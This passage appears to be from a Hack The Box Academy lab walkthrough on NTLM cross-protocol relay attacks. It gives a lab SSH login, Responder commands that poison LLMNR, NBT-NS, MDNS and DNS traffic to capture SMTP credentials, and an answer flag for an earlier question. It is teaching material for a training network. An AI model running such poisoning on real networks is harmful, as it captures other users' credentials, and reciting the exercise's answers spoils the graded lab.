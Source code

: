 Answer: `S0c4T_AnD_ProxyChains_R0cks`

## NTLM Cross-protocol Relay Attacks

### Question 1

#### "Use Responder to capture SMTP credentials. What is the cleartext password for the username 'smtptest'?"

After spawning the target machine, students will connect via SSH with the provided credentials `htb-student:HTB_@cademy_stdnt!`:

Code: shell

```shell
ssh htb-student@STMIP
```

```shell-session
┌─[eu-academy-1]─[10.10.14.196]─[htb-ac-8414@htb-7admwdxcua]─[~]
└──╼ [★]$ ssh htb-student@10.129.100.121
The authenticity of host '10.129.100.121 (10.129.100.121)' can't be established.
ECDSA key fingerprint is SHA256:3I77Le3AqCEUd+1LBAraYTRTF74wwJZJiYcnwfF5yAs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.100.121' (ECDSA) to the list of known hosts.
htb-student@10.129.100.121's password: HTB_@cademy_stdnt!
<SNIP>
  
Last login: Wed Aug 30 16:24:31 2023 from 10.10.14.33 
htb-student@ubuntu:~$
```

Subsequently, students need to start `Responder.py` using `sudo` located in the `tools/Responder` directory in "poisoning" mode by only specifying the `-I` followed by the `ens192` interface, while configuring the tool to poison every broadcast request/traffic.

Code: shell

```shell
cd tools/Responder
sudo python3 Responder.py -I ens192
```

```shell-session
htb-student@ubuntu:~$ cd tools/Responder
htb-student@ubuntu:~/tools/Responder$ sudo python3 Responder.py -I ens192
<SNIP>

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

<SNIP>

[+] Generic Options:
    Responder NIC              [ens192]
    Responder IP               [172.16.117.30]
    Responder IPv6             [fe80::250:56ff:feb9:80f3]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-6Y3FH7UTIW2]
    Responder Domain Name      [0RAB.LOCAL]
    Responder DCE-RPC Port     [45567]
```